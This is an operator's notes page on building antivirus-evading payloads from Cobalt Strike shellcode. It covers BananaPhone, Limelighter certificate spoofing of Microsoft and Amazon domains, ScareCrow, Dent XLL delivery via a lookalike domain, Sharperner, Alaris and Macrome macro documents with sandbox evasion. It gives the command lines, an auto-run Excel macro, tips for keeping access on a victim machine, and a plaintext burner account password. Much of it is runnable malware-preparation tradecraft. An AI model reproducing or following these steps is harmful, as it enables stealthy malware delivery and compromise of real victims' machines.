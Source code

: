 # BananaPhone
````
git clone https://github.com/C-Sto/BananaPhone
cd BananaPhone
go generate .
cd BananaPhone/example/hideexample/banana/
````
Generate 64bit C# shellcode in CobaltStrike
![39f96ad5dc1dfcb47e0545abcac55270.png](../_resources/39f96ad5dc1dfcb47e0545abcac55270.png)
Remove all but the bytecode from payload.cs, copy to clipboard
Open main.go in a text editor, delete the calc shellcode and replace with CS payload shellcode
![cb1aaa4285dd08bb078d63193ac2ab10.png](../_resources/cb1aaa4285dd08bb078d63193ac2ab10.png)
````
env GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui
````
Should now have a banana.exe payload

# Signed BananaPhone
````
git clone https://github.com/Tylous/Limelighter
cd Limelighter
go get github.com/fatih/color
go build Limelighter.go
./Limelighter -Domain aws.amazon.com -I ../banana.exe -O signedbanana.exe
````
![5a8ec5eef4a19a9d7c55b7f7f6ff59c1.png](../_resources/5a8ec5eef4a19a9d7c55b7f7f6ff59c1.png)

# ScareCrow

````
git clone https://github.com/optiv/ScareCrow
cd ScareCrow
go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo
go build ScareCrow.go
````
Generate Raw 64bit shellcode in CobaltStrike: Attacks > Packages > Payload Generator
## Scarecrow.exe
````
./ScareCrow -I ../payload64.bin -Loader binary -domain microsoft.com
````
![f7b94c2df7817b5ebe1c80d2de764e7a.png](../_resources/f7b94c2df7817b5ebe1c80d2de764e7a.png)
## Scarecrow.js
````
./ScareCrow -I ../payload64.bin -Loader control -O scarecrow.js -domain microsoft.com
````
# Dent
````
git clone https://github.com/optiv/Dent
cd Dent
go build Dent.go
````
Generate a raw, stageless 64bit payload in CobaltStrike
![03659214b0ecc91617336f4e68fc5be7.png](../_resources/03659214b0ecc91617336f4e68fc5be7.png)
````
./ScareCrow/ScareCrow -I ../beacon64.bin -domain aws.amazon.com -Loader excel -O dent.xll
````
New ScareCrow builds the shellcode over several lines. To carve out the shellcode: 
````
sed '1,13d' dent.xll|tac|sed '1,26d'|tac|cut -d "\"" -f 2|tr -d "\n" > tmp;mv tmp dent.xll
````
````
./Dent -N XLSX.xll -U https://aws-portal.org/ -F dent.xll
-N: name of file saved on victim machine
-U: URL hosting payload, make sure you format like above
-F: File hosted on URL for victim to grab
````
![0d0c55549d657e0dcf7b2ad8d4eef075.png](../_resources/0d0c55549d657e0dcf7b2ad8d4eef075.png)
Should see output.txt built in Dent directory
Open Excel on a Windows machine
Create a new file and save it as an XLS
View > Macros > random name >"Macros in: \<name\>.xls" > Create
Copy and paste macro from output.txt into macro here
Host dent.xll in CobaltStrike (make sure it matches Dent command, in this case https://aws-portal.org/dent.xll)
Press play button in Excel to test
Should recieve a beacon
Add an another Sub to the macro to make it auto run
````
Sub Auto_Open()
    aMmlwWnC #random name of the dent sub from output.txt
End Sub
````
Note: Dent has a kink where it will hang in the orginal excel process. If the user uses task manager to close excel, will retain access. Little sus, find a way to fix.

# Sharperner
https://github.com/aniqfakhrul/Sharperner
Burner Outlook for Visual Studio- wbtburna@outlook.com:ImAPassword123

Generate a raw, stageless 64bit executable in CobaltStrike
Transfer it to a Windows PC
On Windows, download the Sharpener repo from Github
Open the csproj file in Visual Studio (creds above if need account)
Build the solution
Sharperner.exe should be in %SharpenerDir%/bin/Releases/Sharperner.exe
```
Sharperner.exe /file:payload_raw64.bin /type:cs
```
Sharperner will output an exe with a benign name.
And that's it!
#Look into detection stats, donut if necessary

# Alaris
https://github.com/cribdragg3r/Alaris
Burner Outlook for Visual Studio- wbtburna@outlook.com:ImAPassword123

Generate a raw, C# payload in CobaltStrike
Transfer it to a Windows PC
On Windows, download the Alaris repo from Github
In the exracted Alaris-master directory, run:
```python
pip install -r requirements.txt
```
Open the sln file in Visual Studio (creds above if need account)
Update any missing dependencies (c++)
In the Alaris-master directory run:
```python
builder.py -s payload64.bin -p <whatever you want>
```
Should output loader.exe #Note: Does not execute on Commando, try on Win10 VM
If desired, can sign with Limelighter for better AV bypass

# Macrome

## Installing
* Build with visual stuido or grab the latest release (https://github.com/michaelweber/Macrome/releases/tag/v0.5.0)
    * I've been just grabbing the latest release as I'm lazy, though its bad practice

## Generating Payloads
* v5 made things a lot simpler as he baked in a few of the evasion techniques
* For either type generate two Windows Executable (S) [RAW] payloads
    * One x86 and the other x64
* Change to your Macrome folder and run the following
    * Note: don't change the password, this will keep (some) AVs from inspecting, but will still auto open for a regular user

```bash
dotnet b Macrome.dll --decoy-document decoy_document.xls --payload beacon.bin --payload64-bit beacon64.bin --payload-method Base64 --method ArgumentSubroutines --password VelvetSweatshop --output-file-name 11-https-macrome.xls
```

* If that works, build another with sandbox evasion baked in.
    * I've been using the preamble.txt file that comes default, but you can edit this to check for other things aside from screen resolution
        * Check the github if you are interested
    * If the preamble requirements aren't met, the document will just exit neatly, good little trick.

```bash
dotnet b Macrome.dll --decoy-document decoy_document.xls --payload beacon.bin --payload64-bit beacon64.bin --payload-method Base64 --method ArgumentSubroutines --password VelvetSweatshop --output-file-name --preamble preamble.txt 12-https-macrome-sandbox.xls
```

## Making it pretty
* If you go with macrome for a final payload
    * Save off a copy of the one that worked (or generate a new one) to your commando desktop
    * Unhide the hidden sheet first (breaks things if not)
    * Do all the fancy things you need to do
	* Helps to ctrl+a and change the font first
    * Re-hide that tab
    * Save and it should (hopefully) work. 

# Checkout
https://github.com/ByteJunkies-co-uk/Metsubushi

# Bankai
Go Shellcode Loader
https://github.com/bigb0sss/Bankai
Create Fiber

# AutoMigrate.cna
https://github.com/threatexpress/aggressor-scripts/blob/master/beacon_handler/modules/automigrate.cna

# BruteLoops
https://github.com/arch4ngel/BruteLoops